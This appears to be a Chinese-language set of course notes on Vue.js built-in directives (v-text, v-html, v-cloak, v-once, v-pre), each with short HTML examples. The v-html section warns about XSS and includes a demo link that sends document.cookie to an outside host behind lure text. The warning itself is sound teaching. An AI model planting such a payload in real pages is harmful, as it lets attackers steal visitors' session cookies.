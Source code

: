 # 19.内置指令

## 1. v-text指令

1. 作用：向其所在的节点中**渲染文本内容**。
2. 与插值语法的区别：`v-text`会**替换掉节点中的全部内容**，`{{xx}}`则不会。

```html
<body>
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-text="name"></div>
        <div v-text="str"></div>
    </div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷',
            str:'<h3>你好啊！</h3>'
        }
    })
</script>
```

## 2. v-html指令

1. 作用：向指定节点中**渲染包含 html 结构的内容**
2. 与插值语法的区别：
   1. `v-html` 会**替换掉节点中所有的内容**，`{{xx}}`则不会。
   2. `v-html`可以**识别 html 结构**
3. 严重注意：v-html有安全性问题！！！！
   1. 在网站上**动态渲染任意 HTML** 是非常危险的，容易导致 **XSS 攻击**。
   2. 一定要在可信的内容上使用 `v-html`，永远**不要用在用户提交**的内容上！

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-html="str"></div>
        <div v-html="str2"></div>
    </div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

![image-20211011222221216](https://raw.githubusercontent.com/TWDH/Leetcode-From-Zero/pictures/img/image-20211011222221216.png)

## 3. v-cloak

1. 本质是一个特殊属性，**Vue 实例创建完毕** 并 **接管容器** 后，会**删掉** `v-cloak` 属性。
2. 使用 css 配合 `v-cloak` 可以解决网速慢时页面展示出 `{{xxx}}` 的问题。

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <title>v-cloak指令</title>
        <style>
            [v-cloak]{
                display:none;
            }
        </style>
        <!-- 引入Vue -->
    </head>
    <body>
        <!-- 准备好一个容器-->
        <div id="root">
            <h2 v-cloak>{{name}}</h2>
        </div>
        <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
    </body>

    <script type="text/javascript">
        console.log(1)
        Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

        new Vue({
            el:'#root',
            data:{
                name:'尚硅谷'
            }
        })
    </script>
</html>
```

## 4. v-once

1. `v-once` 所在节点在**初次动态渲染**后，就视为**静态**内容了。
2. 以后数据的改变不会引起 `v-once` 所在结构的更新，可以用于优化性能。

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2 v-once>初始化的n值是:{{n}}</h2>
        <h2>当前的n值是:{{n}}</h2>
        <button @click="n++">点我n+1</button>
    </div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            n:1
        }
    })
</script>
```

## 5. v-pre

1. **跳过**其**所在节点**的**编译**过程。
2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2 v-pre>Vue其实很简单</h2>
        <h2 >当前的n值是:{{n}}</h2>
        <button @click="n++">点我n+1</button>
    </div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            n:1
        }
    })
</script>
```





















